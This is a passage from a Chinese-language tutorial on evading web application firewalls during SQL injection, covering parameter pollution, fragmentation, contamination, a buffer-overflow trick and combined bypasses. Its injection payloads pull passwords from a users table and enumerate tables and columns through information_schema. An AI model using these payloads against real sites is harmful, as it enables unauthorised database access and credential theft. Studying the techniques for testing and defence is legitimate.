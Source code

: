 /?id=1;select+1&id=2,3+from+users+where+id=1—

/?id=1/**/union/_&id=_/select/_&id=_/pwd/_&id=_/from/_&id=_/users

HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况，不同的Web服务器处理方式如下：

![](https://images0.cnblogs.com/blog/536040/201402/251206222237074.jpg#id=DQj71&originHeight=178&originWidth=552&originalType=binary&ratio=1&status=done&style=none)

具体WAF如何处理，要看其设置的规则，不过就示例中最后一个来看有较大可能绕过

2.HPF(HTTP Parameter Fragment)

这种方法是HTTP分割注入，同CRLF有相似之处(使用控制字符%0a、%0d等执行换行)

举例：

/?a=1+union/_&b=_/select+1,pass/_&c=_/from+users--

select _ from table where a=1 union/_ and b=_/select 1,pass/_ limit */from users—

看罢上面两个示例，发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，到了数据库执行查询时再合并语句。

3.HPC(HTTP Parameter Contamination)

这一概念见于exploit-db上的paper：Beyond SQLi: Obfuscate and Bypass，Contamination同样意为污染

RFC2396定义了如下一些字符：

Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()<br />Reserved : ; / ? : @ & = + $ ,<br />Unwise : { } | \ ^ [ ] `

不同的Web服务器处理处理构造得特殊请求时有不同的逻辑：

![](https://images0.cnblogs.com/blog/536040/201402/251226089128413.jpg#id=eOk1r&originHeight=165&originWidth=444&originalType=binary&ratio=1&status=done&style=none)

以魔术字符%为例，Asp/Asp.net会受到影响

![](https://images0.cnblogs.com/blog/536040/201402/251227410156281.jpg#id=PGmkM&originHeight=125&originWidth=497&originalType=binary&ratio=1&status=done&style=none)

**h) 缓冲区溢出(Advanced)**

缓冲区溢出用于对付WAF，有不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度，就会引发bug从而实现绕过

举例：

?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26

示例0xA*1000指0xA后面”A"重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考，在某些情况下可能不需要这么长也能溢出

i) 整合绕过

整合的意思是结合使用前面谈到的各种绕过技术，单一的技术可能无法绕过过滤机制，但是多种技术的配合使用成功的可能性就会增加不少了。这一方面来说是总体与局部和的关系，另一方面则是多种技术的使用创造了更多的可能性，除非每一种技术单独都无法使用，否则它们能产生比自身大得多的能量。

举例：
```bash
z.com/index.php?page_id=-15+and+(select 1)=(Select 0xAA[..(add about 1000 "A")..])+/*!uNIOn*/+/*!SeLECt*/+1,2,3,4…

id=1/*!UnIoN*/+SeLeCT+1,2,concat(/*!table_name*/)+FrOM /*information_schema*/.tables /*!WHERE */+/*!TaBlE_ScHeMa*/+like+database()– -

?id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE+TABLE_NAME=0x41646d696e--  
```
<a name="UcKpE"></a>
#### 0x3 SQLi Filter的实现及Evasion
SQL Injection时用得最多的一些关键字如下：and, or, union, where, limit, group by, select, ', hex, substr, white space<br />对它们的检测，完整正则表达式为：preg_match('/(and|or|union|where|limit|group by|select|'|hex|substr|\s)/i', $id)<br />其应对方式依次为：
```bash
***note***:"=>"左边表示会被Filtered的语句，"=>"右边表示成功Bypass的语句，左边标红的为被Filtered的关键字，右边标蓝的为替代其功能的函数或关键字

```